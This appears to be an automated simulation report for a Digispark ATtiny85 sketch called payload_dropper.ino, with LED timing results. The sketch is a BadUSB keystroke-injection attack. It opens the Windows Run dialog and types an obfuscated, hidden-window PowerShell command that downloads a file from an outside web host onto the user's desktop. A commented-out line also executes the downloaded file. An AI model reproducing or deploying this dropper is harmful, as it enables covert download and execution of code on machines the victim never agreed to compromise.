
This sketch was run on a simulated ATtiny85, built with avr-gcc and run on an emulated ATtiny85. Shown: output pins drawn as LEDs (lit = HIGH).

Above: at 0.1 s.
At 103.9 s:

Timing chart, 0 to 105.4 s (numbered marks = the images above):


The sketch:

payload_dropper.ino
```cpp
#include "DigiKeyboard.h"
void setup() {
  pinMode(1, OUTPUT); //LED on Model A
}
void loop() {
  DigiKeyboard.update();
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(3000);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT); //run
  DigiKeyboard.delay(500);
  DigiKeyboard.println(F("powershell -windowstyle hidden -command (N'ew'-Ob'j'ect Sy's'tem.Net.WebClient).DownloadFile(\\\"https://www.innovative-everyday.com/image/cover_list_comprehension_simple.jpg\\\",\\\"$env:UserProfile\\desktop\\test.jpg\\\")")); //Payload Dropper
//  DigiKeyboard.println(F("powershell -windowstyle hidden -command (N'ew'-Ob'j'ect Sy's'tem.Net.WebClient).DownloadFile(\\\"https://www.innovative-everyday.com/image/cover_list_comprehension_simple.jpg\\\",\\\"$env:UserProfile\\desktop\\test.jpg\\\");in'v'oke-item $env:UserProfile\\desktop\\test.jpg")); //Payload Dropper
  DigiKeyboard.delay(500);
  digitalWrite(1, HIGH); //turn on led when program finishes
  DigiKeyboard.delay(90000);
  digitalWrite(1, LOW);
  DigiKeyboard.delay(5000);
}
```

Measured:
- by itself, PB1 (LED_on_Model_A): LOW → HIGH at 4.4 s, → LOW 90.0 s later, → HIGH 9.4 s later
